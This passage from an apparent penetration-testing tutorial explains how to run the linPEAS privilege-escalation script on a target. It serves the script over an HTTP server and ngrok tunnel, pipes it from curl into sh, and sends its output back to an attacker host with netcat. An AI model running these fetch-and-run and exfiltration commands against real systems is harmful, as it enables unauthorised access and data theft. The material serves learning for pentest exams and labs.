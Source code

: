 ```sh
# Host #2
$ mkdir pywww
$ cd pywww
$ cp /opt/linpeas/linpeas.sh .
$ python3 -m http.server 80 #python -m SimpleHTTPServer 80
```

And from the target server I request the script using the external HTTP address `ngrok` generated - in this example it is `http://01513f63ed1d.ngrok.io`

```sh
$ curl http://01513f63ed1d.ngrok.io/linpeas.sh | sh
```

Of course, you can also `curl` it from the Github - but it is always safer to use something verified (`linPEAS` is often updated which can lead to some [unwanted results](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/))

## Redirecting output to the host

Useful trick is redirecting output of the script to your host. This is useful technique not only for linPEAS but for every other tool, script or a command you want to have the output of on your host. This requires `netcat` to be on the target server.

> Well, hypothetically because you can serve a `nc` binary and download it the same way as you do with the linPEAS script.

```sh
# Host
$ nc -lvnp 9002 | tee linpeas.out
```

```sh
# Target
$ curl {IP}/linpeas.sh | sh | nc {IP} 9002
```

> Sometimes this doesn't work so before that validate `nc` can connect via the specified port. If that is successful, continue. If not, change the port. I've encountered this in one or two boxes when I had to use "legit" port like 443.

[Back to top](#contents) ⤴

# Detailed analysis

> I'm describing only sections that I can make use of. If you know other useful usages of linPEAS or I've made a mistake, please notify me in the comment section and I'll update the article.

As I have stated before - linPEAS is great for learning purposes or quick privilege escalation checks. Especially if you are aiming for pentesting exams - it is way more beneficial to understand **how** such scripts as linPEAS works. From my experience so far, I always could figure things out without linPEAS, if I would remember such commands like `sudo -l`.

Let's review the output of the linPEAS.

> More can be found on the Hacktricks page in [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation) section.
